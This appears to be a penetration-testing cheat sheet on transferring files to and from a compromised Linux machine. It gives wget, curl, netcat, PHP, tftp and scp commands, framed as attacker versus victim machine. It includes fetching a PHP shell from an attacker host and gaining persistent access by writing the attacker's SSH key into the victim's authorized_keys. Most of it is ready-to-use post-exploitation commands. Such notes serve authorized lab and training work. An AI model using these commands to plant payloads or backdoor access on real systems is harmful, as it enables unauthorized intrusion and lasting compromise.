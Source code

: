 # Transferring Files on Linux

## Set Up a Simple Python Webserver

For the examples using curl  and wget we need to download from a web-server. THis is an easy way to set up a web-server. This command will make the entire folder available on port 9999.

```
python -m SimpleHTTPServer 9999
```

## Wget

Now you can download any file with curl or wget

```
wget 192.168.1.102:9999/file.txt
```

## Curl

```
curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because  that will destroy your sessions.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the other way around:

So on the victim-machine we run nc like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes recieved this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```


## With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp

If you have access to a ftp-client to can of course just use that. 

## Tftp

On some rare machine we do not have access to nc and wget, and curl.. But we might have access to tftp. Some versions of tftp are run interactively, like this:

```
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can  do this trick:

```
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair

You do that with: 
```
ssh-keygen -t rsa -C "your_email@example.com"
```
then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:

This will create two files, one called **nameOfMyKey** and another called **nameOfMyKey_pub**. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.

Now you copy the content of **nameOfMyKey_pub**. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this 

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.
Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP

Now we can copy files to a machine using **scp**

```
# Copy a file:
$ scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
$ scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```